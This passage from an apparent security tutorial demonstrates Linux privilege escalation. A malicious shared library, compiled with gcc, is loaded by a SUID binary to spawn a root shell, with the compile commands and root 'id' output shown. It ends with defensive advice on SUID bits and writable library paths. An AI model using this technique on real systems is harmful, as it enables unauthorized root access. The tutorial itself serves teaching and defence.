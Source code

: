 However, because I want to demonstrate this privilege escalation technique, I'll ignore the warnings and just compile the program so I won't use it:

```bash
user@pwn:~/.config$ gcc -c -Wall -fpic custom.c
custom.c: In function ‘inject’:
custom.c:7:2: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    7 |  setuid(0);
      |  ^~~~~~
custom.c:8:2: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    8 |  setgid(0);
      |  ^~~~~~
```

Create the shared object:

```bash
user@pwn:~/.config$ gcc -shared -o custom.so custom.o
```

Execute the program and since the program has a SUID bit set, it executes as root, then it loads the evil library, and the evil library spawns a root shell:

```bash
/usr/bin/nosuchfile
```

As we can see we're able to escalate to the root user:

```bash
user@pwn:~/.config$ /usr/bin/nosuchfile
Hello
root@pwn:~/.config# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare),1000 (user)
```

Now remove the SUID bit and try to execute the binary again:

```bash
user@pwn:~/.config$ sudo chmod u-s /usr/bin/nosuchfile 
user@pwn:~/.config$ /usr/bin/nosuchfile
Hello
user@pwn:~/.config$ 
```

For this to work, the binary must have the SUID bit set.

# Defend

To defend against these attacks, consider the following measures:

- Avoid setting the SUID bit on executables that are not necessary.
- Ensure that `/lib` and `/usr/lib` directories are not writable by others.
- Verify that the directories specified in `/etc/ld.so.conf` are not writable by others.
- Ensure that the directories specified in `LD_LIBRARY_PATH` are not writable by others.